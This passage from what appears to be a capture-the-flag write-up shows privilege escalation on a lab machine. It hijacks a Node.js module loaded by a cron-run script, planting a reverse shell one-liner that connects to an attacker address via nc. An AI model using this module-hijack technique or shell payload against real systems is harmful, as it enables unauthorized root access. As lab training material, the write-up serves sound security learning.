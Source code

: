 
# Privesc

User "david" is in "sysadmins" group.

![](screenshots/david-groups.png)

Searching for files where "sysadmins" group users have read/write access.
```bash
crossfit2$ find / -group sysadmins -ls 2>/dev/null
1244170    4 drwxrwxr-x    3 root     sysadmins      512 Feb  3  2021 /opt/sysadmin
```

Find a javascript file inside `/opt/sysadmin/server/statbot`
```bash
-rw-r--r--  1 root  wheel  740 Jan 13  2021 statbot.js`
```

* script is executing every minute and loging data in `/tmp/chatbot.log`

## Node module hijack

script using 2 nodejs modules
```js
const WebSocket = require('ws');
const fs = require('fs');
```

but there is no node_module directory in current folder. Whenever we create a new project and install required modules with `nmp` they installed in `node_modules` directory inside project folder. if not than used from nmp global library. you can understand nodejs folder Structures from [docs.npmjs.com](https://docs.npmjs.com/cli/v7/configuring-npm/folders)

* websocket module install in `node_modules/ws` directory and load from `node_modules/ws/index.js`.

Get nodejs reverse shell from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#nodejs)

user "david" have write access in `/opt/sysadmin` directory.

Create recursive directry `node_modules/ws/` and inside this folder create `index.js` file with reverse shell.

```bash
mkdir -p /opt/sysadmin/node_modules/ws/
cat << EOF > /opt/sysadmin/node_modules/ws/index.js
require('child_process').exec('rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.71 4141 >/tmp/f')
EOF
```
